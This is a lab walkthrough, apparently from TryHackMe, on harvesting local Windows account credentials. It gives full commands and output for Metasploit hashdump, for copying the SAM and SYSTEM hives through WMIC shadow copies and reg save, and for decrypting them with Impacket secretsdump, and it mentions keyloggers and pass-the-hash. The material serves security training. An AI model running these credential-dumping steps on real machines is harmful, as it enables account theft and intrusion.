 --- ---

<h2>General</h2>

In general, Windows operating system provides two types of user accounts: Local and Domain. Local users' details are stored locally within the Windows file system, while domain users' details are stored in the centralized Active Directory. This task discusses credentials for local user accounts and demonstrates how they can be obtained.

---
<h3>Keystrokes</h3>
Keylogger is a software or hardware device to monitor and log keyboard typing activities. Keyloggers were initially designed for legitimate purposes such as feedback for software development or parental control. However, they can be misused to steal data. As a red teamer, hunting for credentials through keyloggers in a busy and interactive environment is a good option. If we know a compromised target has a logged-in user, we can perform keylogging using tools like the Metasploit framework or others.

We have a use case example for exploiting users via keystrokes using Metasploit in another THM room. For more information, you should check THM [Exploiting AD](https://tryhackme.com/room/exploitingad) (Task 5). 

---
<h3>Security Account Manager (SAM)</h3>

The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. Moreover, it can not be read and accessed by any users while the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database. 

First, ensure you have deployed the provided VM and then confirm we are not able to copy or read  the `c:\Windows\System32\config\sam` file:

Confirming No Access to the SAM Database

```shell-session
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

---
<h3>Metasploit's HashDump</h3>
The first method is using the built-in Metasploit Framework feature, hashdump, to get a copy of the content of the SAM database. The Metasploit framework uses in-memory code injection to the LSASS.exe process to dump copy hashes.

Dumping the SAM database content

```shell-session
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

---
<h3>Volume Shadow Copy Service</h3>
The other approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes. You can visit the [Microsoft documentation page](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) for more information about the service.

More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows,

1.  Run the standard cmd.exe prompt with administrator privileges.
2.  Execute the wmic command to create a copy shadow of C: drive
3.  Verify the creation from step 2 is available.
4.  Copy the SAM database from the volume we created in step 2

Now let's apply what we discussed above and run the cmd.exe with administrator privileges. Then execute the following wmic command:

Creating a Shadow Copy of Volume C with WMIC

```shell-session
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume. 

Listing the Available Shadow Volumes

```shell-session
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`. 

As mentioned previously, the SAM database is encrypted either with [RC4](https://en.wikipedia.org/wiki/RC4) or [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in `c:\Windows\System32\Config\system`. 

Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows,

Copying the SAM and SYSTEM file from the Shadow Volume

```shell-session
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```

Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work). 

---
<h3>Registry Hives</h3>
Another possible method for dumping the SAM database content is through the Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.

Save SAM and SYSTEM files from the registry

```shell-session
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques.

Move both SAM and system files to the AttackBox and run the following command:

Decrypting SAM Database using Impacket SecretsDump Script Locally

```shell-session
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Note that we used the SAM and System files that we extracted from Windows Registry. The `-sam` argument is to specify the path for the dumped sam file from the Windows machine. The `-system` argument is for a path for the system file. We used the `LOCAL` argument at the end of the command to decrypt the Local SAM file as this tool handles other types of decryption. 

Note if we compare the output against the NTLM hashes we got from Metasploit's Hashdump, the result is different. The reason is the other accounts belong to Active Directory, and their information is **not** stored in the System file we have dumped. To Decrypt them, we need to dump the SECURITY file from the Windows file, which contains the required files to decrypt Active Directory accounts.

Once we obtain NTLM hashes, we can try to crack them using Hashcat if they are guessable, or we can use different techniques to impersonate users using the hashes.